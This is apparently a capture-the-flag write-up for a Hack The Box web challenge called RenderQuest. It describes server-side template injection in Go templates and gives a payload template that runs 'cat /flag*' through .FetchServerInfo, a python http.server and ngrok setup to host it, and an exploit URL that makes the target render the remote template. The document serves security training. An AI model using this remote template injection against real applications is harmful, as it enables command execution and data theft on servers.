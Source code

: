 Challenge: RenderQuest<br>
Category: Web<br>
Difficulty: easy<br>
Vulnerability: SSTI (Go Templates)<br>

<h1>Description</h1> The application fetches and renders Go templates specified by the page parameter when remote=true,
without any sanitization. By supplying a template that calls the built-in .FetchServerInfo function, you can read
flag.txt.

<ul>
    <li>Run the provided Python script, which creates an ngrok_payload folder and writes index.tpl containing:
        <pre><code>&lt;html&gt;&lt;body&gt;&lt;pre&gt;{{ .FetchServerInfo "cat /flag*" }}&lt;/pre&gt;&lt;/body&gt;&lt;/html&gt;</code></pre>
    </li>
    <li>Inside ngrok_payload, start a simple HTTP server on port 8000:
        <pre><code>python3 -m http.server 8000 &amp;</code></pre>
    </li>
    <li>Use ngrok to expose the local server publicly and grab the generated public URL.</li>
    <li>Build the exploit URL:
        <pre><code>http://&lt;target&gt;/view?page=&lt;ngrok_public_url&gt;/index.tpl&amp;remote=true</code></pre>
    </li>
    <li>When the application fetches and renders the remote template, the injected .FetchServerInfo call reads /flag*
        and embeds its contents in the HTTP response.</li>
    <li>The script then applies a regex (HTB\{.*?\}) to extract the flag from the response body and prints it to stdout.
    </li>
</ul>
